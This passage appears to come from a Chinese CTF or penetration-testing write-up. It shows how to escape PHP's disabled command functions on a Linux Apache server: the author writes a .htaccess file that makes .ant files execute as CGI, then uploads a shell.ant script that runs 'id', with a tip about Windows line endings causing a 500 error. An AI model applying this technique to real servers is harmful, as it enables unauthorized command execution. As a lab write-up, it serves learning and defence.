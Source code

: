 无法执行命令

 查了phpinfo()的配置信息，版本为5.6.11，大佬说要查看Apache的CGI服务有没有打开，但是我不知道 怎么看(还是太菜了)，就默认它打开了吧。

在当前目录下有写入文件的权限，创建.htaccess文件，写入

```
Options +ExecCGI AddHandler cgi-script .ant
```

**这里踩了坑，直接用蚁剑新建然后写入，直接爆了500，因为linux中CGI比较严格，无法解析我们bash文件。我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传**

```
cat>>.htaccess 
Options +ExecCGI
AddHandler cgi-script .ant#将文件后缀为.ant的文件当作CGIc执行
```

![image-20231022212501628](assets/image-20231022212501628.png)

再把文件上传到目录里

**/usr/local/bin/php**

然后新建shell.ant，写入

```php
#!/bin/sh echo Content-type: text/html echo "" echo&&id
```

![image-20231022212746081](assets/image-20231022212746081.png)
